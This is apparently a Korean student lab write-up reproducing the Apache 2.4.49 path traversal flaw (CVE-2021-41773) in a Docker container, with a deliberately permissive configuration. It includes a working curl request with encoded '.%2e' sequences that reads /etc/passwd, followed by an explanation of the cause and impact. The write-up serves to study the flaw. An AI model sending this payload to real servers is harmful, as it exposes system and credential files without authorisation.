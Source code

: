 # Apache HTTP Server Path Traversal (CVE-2021-41773)  
화이트햇 스쿨 3기 – 조민규 (@oureukk)

---

## 요약
- Apache HTTP Server 2.4.49 버전의 `mod_cgi` 경로 검증 로직에 결함이 있어, URL 인코딩된 `..` 시퀀스를 통해 문서 루트 밖의 임의 파일을 읽을 수 있음.  
- 공격자는 `/etc/passwd` 같은 시스템 파일은 물론, 웹 서버가 읽을 수 있는 모든 파일을 노출시킬 수 있음.  

---

## 환경 구성 및 실행

1. **Dockerfile 작성**  
   `Dockerfile`:
   ```dockerfile
   FROM httpd:2.4.49

   # bash 및 기타 유틸 설치
   RUN apt-get update && apt-get install -y bash

   # 간단한 CGI 스크립트 생성
   RUN printf '%s\n' '#!/bin/bash' 'echo "Content-type: text/plain"' 'echo' 'echo "Hello from CGI"' \
       > /usr/local/apache2/cgi-bin/hello.sh \
     && chmod +x /usr/local/apache2/cgi-bin/hello.sh

   #루트파일도 읽히도록 액세스 제어 변경
   RUN printf '%s\n' \
    '<Directory "/">' \
      '    Require all granted' \
    '</Directory>' \
    >> /usr/local/apache2/conf/httpd.conf
  '''
  
2. docker-compose.yml 작성  
   **docker-compose.yml**:  
   ```yaml
   version: "3.8"
   services:
     apache-vuln:
       build: .
       ports:
         - "8080:80"

3. 컨테이너 빌드 및 실행
   '''bash
   docker-compose up -d

4. 정상 동작 확인
   '''bash
   curl -i http://localhost:8080/cgi-bin/hello.sh
   
5. 취약점 Poc 호출
   '''bash
   curl -i "http://localhost:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd"
   
---

## 결과
![image](https://github.com/user-attachments/assets/8241770b-6b3f-45b4-b8df-9ddbf5f97b4a)

---

## 정리
- 취약 원인: Apache 2.4.49에서 URL 디코딩 후 경로 검증을 우회할 수 있어, .. 인코딩 시퀀스를 통해 문서 루트를 넘어선 파일 액세스가 허용됨.

- 영향도: 웹 서버가 읽을 수 있는 모든 시스템 파일 및 애플리케이션 파일 정보 노출 → 정보 유출, 내부 구조 파악, 추가 공격 발판 제공

---

